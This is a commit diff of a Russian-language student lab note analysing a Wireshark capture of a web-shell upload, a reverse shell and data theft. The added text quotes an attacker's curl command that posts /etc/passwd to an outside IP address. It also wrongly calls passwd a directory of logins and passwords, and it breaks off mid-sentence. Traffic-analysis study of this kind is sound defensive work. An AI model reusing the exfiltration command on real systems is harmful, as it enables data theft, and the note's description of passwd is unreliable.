

Before and after one commit to ameliaash2454/study-labs, a Markdown page: Анализ PCAP WireShark.md, the part around the change. Drawn GitHub-style; pictures changed too: attachment/Pasted image 20261105180752.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-11-05 18:16:10

```diff
--- a/Анализ PCAP WireShark.md
+++ b/Анализ PCAP WireShark.md
@@ -21,4 +21,9 @@
 
 Проанализируем трафик. Злоумышленник инициировал соединение с веб сервером. До 138 пакета активность выглядит нормальной - клиент открыл несколько страниц сайта. Далее 138 пакет мне показался странным. Клиент запрашивает страницу с адресом reviews/ uploads/image.jpg.php. Могу предположить, что злоумышленник до этого искал на сайте input форму чтобы попытаться ввести вредоносный код. ![](attachment/Pasted%20image%2020261105175801.png)
  После пакета 138 сервис сам инициировал соединение что указывает на reverse shell. Значит image.jpg.php и был вредоносным скриптом уже загруженным на сервер ранее. ![](attachment/Pasted%20image%2020261105180250.png)Действительно, в 53 пакете на сервер был отправлен POST запрос с вредоносным кодом по адресу reviews/ uploads.
- (возник вопрос -)
+ (возник вопрос - почему идет соединения с айпи источника веб сервера, но порт назначения 8080 - по идее админ панель. Разве не наоборт, при reverse shell порт 8080 должен сам инициировать соединение?)
+Раскрыв tcp поток видим следующее:
+![](attachment/Pasted%20image%2020261105180752.png)
+Злоумышленник открывает директорию passwd. Данная директория содержит логины и пароли пользователей.
+
+curl -X POST -d /etc/passwd http://117.11.88.124:443/ - была введена следующая команда.  Я так понимаю это отправлен POST запрос с айпи адресом злоумышленника на порту 443. Он отправил
```
